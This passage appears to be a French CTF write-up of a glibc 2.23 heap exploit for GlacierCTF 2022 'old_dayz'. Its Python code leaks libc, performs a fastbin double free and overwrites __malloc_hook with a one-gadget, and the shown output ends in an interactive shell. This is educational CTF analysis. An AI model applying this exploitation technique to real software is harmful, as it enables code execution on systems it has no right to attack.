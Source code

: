 
```python
## leak libc addr
add(0, 0x80)
add(1, 0x80)

delete(0)
leak = view(0)

libc.address = u64(leak.ljust(8,b"\x00")) -  (0x3554d8 + libc.sym.puts)
info(f"LIBC: {hex(libc.address)}")
```

Pour leak l'adresse, nous devons faire deux requêtes à minima. Si nous essayons d'allouer qu'un seul chunk, lors du free, il viendra consolider le ```top chunk``` et notre plan tombera à l'eau. 

```c
static void _int_free (mstate av, mchunkptr p, int have_lock){
...
 /*
    If the chunk borders the current high end of memory,
	consolidate into top
*/

else {
    size += nextsize;
    set_head(p, size | PREV_INUSE);
    av->top = p;
	check_chunk(av, p);
}
...
```

## Double free

Les fonctions nous permettant de contrôler l'index du chunk que l'on manipule, sans vérifier si le chunk est free ou non, cela devient assez simple:

```python
add(2, 0x68)
delete(2)
write(2, p64(libc.sym.__malloc_hook-35))
```

## Arbitrary write

Pour finir on écrase \_\_malloc\_hook avec l'adresse de notre gadget.

```python
add(3,0x68)
add(4,0x68)
write(4 , b"A" * 19 + p64(libc.address + gadget))
```

### Output
```bash
pwn@research:~/heap/Fastbin-dup/GlacierCTF2022-old_dayz/app$ python xpl.py 
[*] '/home/pwn/heap/Fastbin-dup/GlacierCTF2022-old_dayz/app/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './old_patched': pid 14712
[*] LIBC: 0x7f27ae443000
[*] Switching to interactive mode

```